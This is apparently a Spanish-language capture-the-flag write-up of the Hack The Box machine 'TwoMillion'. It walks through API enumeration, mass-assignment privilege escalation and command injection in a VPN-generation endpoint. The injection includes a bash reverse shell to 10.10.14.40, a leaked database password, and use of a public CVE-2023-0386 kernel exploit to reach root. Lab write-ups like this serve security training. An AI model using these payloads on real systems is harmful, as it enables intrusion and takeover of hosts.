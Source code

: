# TwoMillion

Tags: [[_api]],[[_commandInjection]],[[_webExploitation]],[[_infoLeakage]],[[_cve]]

## Primeros pasos
(Reconocimiento).

<span style="color:#07b4f2">Organizamos</span> <span style="color:#ff2dc0">TMUX</span>.
<span style="color:#07b4f2">Activamos</span> <span style="color:#ff2dc0">VPN</span>.

Le <span style="color:#07b4f2">hacemos</span> un <span style="color:#ff2dc0">ping</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina</span>. (<span style="color:#379075">Está activa o no</span>).
<span style="color:#bef202">Posible</span> <span style="color:#ff2dc0">máquina Linux</span>.

<span style="color:#07b4f2">Ponemos</span> la <span style="color:#ff2dc0">IP</span> de la <span style="color:#ff2dc0">máquina</span> <span style="color:#07b4f2">en</span> un <span style="color:#07b4f2">lugar visible</span>.
<span style="color:#07b4f2">Creamos</span> un <span style="color:#07b4f2">directorio</span> <span style="color:#07b4f2">como</span> la <span style="color:#ff2dc0">IP</span> o <span style="color:#07b4f2">nombre</span> de la <span style="color:#ff2dc0">máquina</span>.
<span style="color:#07b4f2">Creamos</span> los <span style="color:#07b4f2">directorios</span> de <span style="color:#07b4f2">trabajo</span>.

<span style="color:#bef202">Empezamos el escaneo con</span> <span style="color:#ff2dc0">NMAP</span>. <span style="color:#379075">Otro escaneo de puertos comunes por posibles falsos negativos</span>.
<span style="color:#07b4f2">Buscamos</span> <span style="color:#ff2dc0">codename</span> con <span style="color:#ff2dc0">launchpad</span>, <span style="color:#bef202">un posible</span> <span style="color:#ecacb6">Ubuntu Jammy</span>.

+ <span style="color:#ff669c">Puertos abiertos</span>

<span style="color:#ff669c">22</span> - SSH. <span style="color:#379075">Version 8.9p1</span>
<span style="color:#ff669c">80</span> - HTTP. <span style="color:#379075">Nginx</span>


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

<span style="color:#ff669c">22</span>.
<span style="color:#07b4f2">No tengo</span> <span style="color:#ff2dc0">credenciales</span> de momento.

<span style="color:#ff669c">80</span>.
<span style="color:#ff2dc0">whatweb</span>. Me <span style="color:#ff2dc0">redirige</span> a <span style="color:#ecacb6">2million.htb</span>, lo metemos en el <span style="color:#ecacb6">/etc/hosts</span>
Tenemos un <span style="color:#ff2dc0">correo</span>
<span style="color:#ecacb6">info@hackthebox.eu</span>

<span style="color:#ff2dc0">Desde la web</span>.
Vemos que es la <span style="color:#ff2dc0">antigua plataforma </span>de <span style="color:#ff2dc0">HTB</span>, para <span style="color:#ff2dc0">loguearnos</span> tenemos que "<span style="color:#ff2dc0">Hackear</span>" la <span style="color:#ff2dc0">web</span>.

<span style="color:#ff2dc0">Rutas</span>.
<span style="color:#ecacb6">/login</span>
<span style="color:#ecacb6">/invite</span> :    en el <span style="color:#ff2dc0">código fuente</span> veo que <span style="color:#07b4f2">si</span> tengo un <span style="color:#ff2dc0">código</span> de <span style="color:#ff2dc0">invitación válido</span>, me <span style="color:#07b4f2">lleva</span> a <span style="color:#ecacb6">/register</span>, ahí <span style="color:#07b4f2">lo puedo poner</span>.

En <span style="color:#ecacb6">/invite</span> veo en las <span style="color:#ff2dc0">herramientas</span> del <span style="color:#ff2dc0">navegador</span>, en <span style="color:#ff2dc0">console</span>, al hacer "<span style="color:#ecacb6">this</span>" veo las <span style="color:#ff2dc0">funciones</span> que están cargadas, entre ellas <span style="color:#ff2dc0">makeInviteCode()</span>, la <span style="color:#ff2dc0">ejecuto</span> y me <span style="color:#07b4f2">da</span> una <span style="color:#ff2dc0">data</span> en <span style="color:#ff2dc0">ROT13</span>, lo <span style="color:#ff2dc0">desciframos</span>.

Al <span style="color:#07b4f2">texto le hacemos</span> un
<span style="color:#ecacb6">| tr '[A-Za-z]' '[N-ZA-Mn-za-m]'</span> :    <span style="color:#ecacb6">A</span> -> <span style="color:#ecacb6">N</span> hay <span style="color:#ecacb6">13 caracteres</span>, <span style="color:#07b4f2">de ahí a</span> la <span style="color:#ecacb6">Z</span>, <span style="color:#07b4f2">luego de</span> la <span style="color:#ecacb6">A</span> a <span style="color:#07b4f2">una antes</span> de la <span style="color:#ecacb6">N</span> <span style="color:#07b4f2">que es</span> la <span style="color:#ecacb6">M</span>, <span style="color:#07b4f2">luego lo mismo</span> en <span style="color:#07b4f2">minúsculas</span>.

El <span style="color:#ff2dc0">texto descifrado</span> <span style="color:#07b4f2">dice</span> que hagamos una <span style="color:#ff2dc0">petición</span> por <span style="color:#ff2dc0">POST</span> a <span style="color:#ecacb6">/api/v1/invite/generate</span> para generar nuestro código de invitación.
Nos da un <span style="color:#07b4f2">texto</span> en <span style="color:#ff2dc0">base64</span>, lo <span style="color:#ff2dc0">decodeamos</span> y <span style="color:#07b4f2">obtenemos</span> un código de invitación, <span style="color:#ecacb6">R6L0C-42ND8-795DL-EXFZD</span>.

Nos registramos en <span style="color:#ecacb6">/register</span> solo hay que <span style="color:#07b4f2">quitar</span> el<span style="color:#ecacb6"> read_only</span> del <span style="color:#ff2dc0">HTML</span> <span style="color:#07b4f2">de donde se pone</span> el <span style="color:#ff2dc0">invite code</span>.

Ya <span style="color:#ff2dc0">logueados</span>, podemos <span style="color:#07b4f2">pensar</span> en ver si podemos <span style="color:#07b4f2">descargar</span> una <span style="color:#ff2dc0">VPN</span> de algún <span style="color:#ff2dc0">usuario</span>, de hecho sí la descarga, pero al hacer <span style="color:#ff2dc0">Hovering</span> vemos que se <span style="color:#07b4f2">trata</span> de una <span style="color:#ff2dc0">API</span>.


<span style="color:#ff2dc0">API Enumeration</span>.
Tenemos que <span style="color:#07b4f2">usar</span> la <span style="color:#ff2dc0">cookie de sesión</span>.
Hacemos
<span style="color:#88c425">curl -s -X GET "http://2million.htb/api/v1/user/vpn/generate" -b "PHPSESSID=odgvjb6ca824bjapeoapvkrtn6" -v</span>  :    vemos que <span style="color:#07b4f2">crea</span> el <span style="color:#ff2dc0">certificado</span>, y como <span style="color:#07b4f2">lo puede crear</span> con un <span style="color:#ff2dc0">comando</span> por <span style="color:#07b4f2">detrás</span>, tenemos que <span style="color:#07b4f2">encontrar</span> la <span style="color:#07b4f2">manera</span> de que<span style="color:#07b4f2"> lo haga para un usuario específico</span> (<span style="color:#379075">tratar de meter un comando</span>), porque <span style="color:#07b4f2">dice</span> que <span style="color:#07b4f2">crea</span> una <span style="color:#ff2dc0">VPN</span> <span style="color:#07b4f2">para</span> un <span style="color:#ecacb6">usuario</span>, <span style="color:#07b4f2">no solo</span> para el <span style="color:#07b4f2">mío</span>.

En <span style="color:#ecacb6">/api/v1</span> vemos <span style="color:#ff2dc0">endPoints</span> y <span style="color:#07b4f2">cosas</span> que <span style="color:#ff2dc0">admin</span> puede <span style="color:#07b4f2">hacer</span>. <span style="color:#07b4f2">Confirmamos</span> que podemos <span style="color:#07b4f2">hacer</span> una <span style="color:#ff2dc0">VPN</span> para un <span style="color:#ecacb6">usuario</span> <span style="color:#07b4f2">específico</span>.

En <span style="color:#ecacb6">/api/v1/admin/settings/update</span> podemos <span style="color:#07b4f2">actualizar</span> nuestro <span style="color:#07b4f2">perfil</span>, lo <span style="color:#ff2dc0">enumeramos</span> bien, y <span style="color:#07b4f2">nos ponemos con</span> el <span style="color:#ff2dc0">rol</span> de <span style="color:#ff2dc0">admin</span>.
<span style="color:#07b4f2">Mandamos</span> al <span style="color:#ff2dc0">endpoint</span> de <span style="color:#ecacb6">update</span>
<span style="color:#ecacb6">-H "Content-Type: application/json" -d '{"email":"joelkami@joelkami.com", "is_admin":1}'</span> :    y la <span style="color:#ff2dc0">cookie</span> <span style="color:#07b4f2">claro</span>. <span style="color:#07b4f2">Nos pone</span> como <span style="color:#ff2dc0">admin</span>.

Ya podemos <span style="color:#07b4f2">crear</span> una <span style="color:#ff2dc0">VPN</span> para un <span style="color:#ecacb6">usuario</span>, en
<span style="color:#ecacb6">/api/v1/admin/vpn/generate</span>
Ejecutamos concretamente
<span style="color:#88c425">curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -b "PHPSESSID=odgvjb6ca824bjapeoapvkrtn6" -H "Content-Type: application/json" -d '{"username":"joelkami"}'</span>  :    nos <span style="color:#07b4f2">muestra</span> la <span style="color:#ff2dc0">VPN</span> que <span style="color:#07b4f2">crea</span>, pero yo para qué la quiero, <span style="color:#07b4f2">pensando</span> que es un <span style="color:#ff2dc0">comando</span> por <span style="color:#07b4f2">detrás</span>, tratemos de <span style="color:#ff2dc0">escaparlo</span>, porque puede <span style="color:#07b4f2">tomar</span> el <span style="color:#ecacb6">usuario</span> para <span style="color:#07b4f2">crearle una</span>.

Le <span style="color:#07b4f2">enviamos</span> así la <span style="color:#ff2dc0">data</span>
<span style="color:#ecacb6">-d '{"username":"joelkami; whoami;"}'</span>  :    lo ejecuta.

Obtener <span style="color:#ff2dc0">Reverse Shell</span>
<span style="color:#ecacb6">-d '{"username":"joelkami; bash -c \"bash -i >& /dev/tcp/10.10.14.40/443 0>&1\";"}'</span>


## Escalada

Enumerar todo el sistema.
Efectivamente, Ubuntu Jammy.

<span style="color:#07b4f2">Usuarios</span> válidos a <span style="color:#ff2dc0">nivel</span> de <span style="color:#ff2dc0">sistema</span>.
<span style="color:#ecacb6">root</span>
<span style="color:#ecacb6">www-data</span>
<span style="color:#ecacb6">admin</span>

En <span style="color:#ecacb6">/var/www/html</span> vemos <span style="color:#ecacb6">.env</span>, que tiene <span style="color:#ff2dc0">credenciales</span> de acceso a <span style="color:#ff2dc0">base de datos</span>.
Las <span style="color:#07b4f2">probamos</span> con el <span style="color:#ecacb6">usuario</span> antes, y funcionan.
<span style="color:#ecacb6">admin:SuperDuperPass123</span> 

<span style="color:#07b4f2">Buscando</span> por <span style="color:#ff2dc0">archivos</span> cuyo <span style="color:#ff2dc0">propietario</span> sea <span style="color:#ecacb6">admin</span>, vemos <span style="color:#ecacb6">/var/mail/admin</span>, donde <span style="color:#07b4f2">hablan</span> de una <span style="color:#ff2dc0">vulnerabilidad</span> del <span style="color:#ff2dc0">Kernel</span>, que <span style="color:#07b4f2">aprovecha</span> el <span style="color:#ff2dc0">OverlayFS</span>, veamos este artículo https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/#background-on-the-suid-bit-and-overlayfs

Si hacemos <span style="color:#88c425">uname -a</span> podemos ver que está muy <span style="color:#07b4f2">desactualizado</span>.

Usamos https://github.com/xkaneiki/CVE-2023-0386
Lo <span style="color:#ff2dc0">clonamos</span>, hacemos un <span style="color:#ff2dc0">comprimido</span> <span style="color:#07b4f2">con todo</span> para <span style="color:#ff2dc0">subirlo</span> a la <span style="color:#ff2dc0">máquina víctima</span>, esto porque <span style="color:#07b4f2">tiene</span> <span style="color:#ff2dc0">make</span> (<span style="color:#379075">sino, basta con compilarlo nosotros</span>).

Comprimir
<span style="color:#88c425">tar -czf comprimido.tar.gz CVE-2023-0386</span> 
Descomprimir
<span style="color:#88c425">tar -xzf comprimido.tar.gz</span> :    esto <span style="color:#07b4f2">en</span> la <span style="color:#ff2dc0">máquina vítcima</span>.

En el <span style="color:#ff2dc0">repositorio</span>, en la <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#88c425">make all</span>
<span style="color:#88c425">./fuse ./ovlcap/lower ./gc</span>

En <span style="color:#07b4f2">otra</span> <span style="color:#ff2dc0">terminal</span> y <span style="color:#07b4f2">en</span> el mismo <span style="color:#ff2dc0">repositorio</span>, <span style="color:#07b4f2">en</span> la <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#ecacb6">./exp</span>  :    <span style="color:#07b4f2">por aquí me vuelvo</span> <span style="color:#ff2dc0">root</span> y pa deeeentro.

FIN.
